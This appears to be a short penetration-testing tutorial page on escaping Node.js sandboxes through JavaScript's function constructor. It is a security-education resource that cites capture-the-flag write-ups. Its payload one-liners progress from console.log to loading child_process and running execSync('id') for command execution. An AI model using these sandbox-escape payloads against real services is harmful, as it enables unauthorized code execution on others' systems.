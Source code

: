 # more languages and technologies will be addes soon 

## nodejs sandbox bypass 101

this payloads or techniques not necessarily to work on real targets , it just explainging how to do it 

### constructor function 
A constructor function in JavaScript is a special type of function that is used to create and initialize objects , so we can use it to create functions since functions are objects in javascript


### the idea of bypass is to access the constructor property of a function to create your evil functions bypassing restricted rules which is set in the sandbox , so  create object access function or any property which reffer to a function then access its constructor property which refers to the constructor function (note `"".constructor()` is a function )

![Screenshot_20230808_161658](https://github.com/kiro6/penetration-testing-notes/assets/57776872/bef0f085-20c3-428f-810e-5271d67d4de2)

  
- examples 
```js

// ''.split.constructor()() === ''["split"]["constructor"]("console.log(1)")()

[].push.constructor("console.log(1)")()

"".split.constructor("console.log(1)")()

"".constructor.constructor("console.log(1)")()

''["sub"]["constructor"]('console.log(1)')()

Number(1).constructor.constructor("console.log(1)")()

```

### we have another technique to understand it i recommend reading [this](http://kangax.github.io/nfe/)

```js

(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('console.log(1)')()

(function(prop) { return ''[prop ? "constructor":"benign"  ][prop] })("constructor")("console.log(1)")()

(function({anything}){return anything.constructor})({anything:"".split})("console.log(1)")()

```

### ofcourse we can do more than just console , here is how to import modules inside the evil functions you create

```js
process.mainModule.require("child_process").execSync("id")

global.process.mainModule.constructor._load("child_process").execSync("id")
```

### final examples 

```js
(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


"".sub.constructor('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


(function({book}){return book.constructor})({book:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()

```

#### sources 
- https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html
- https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/
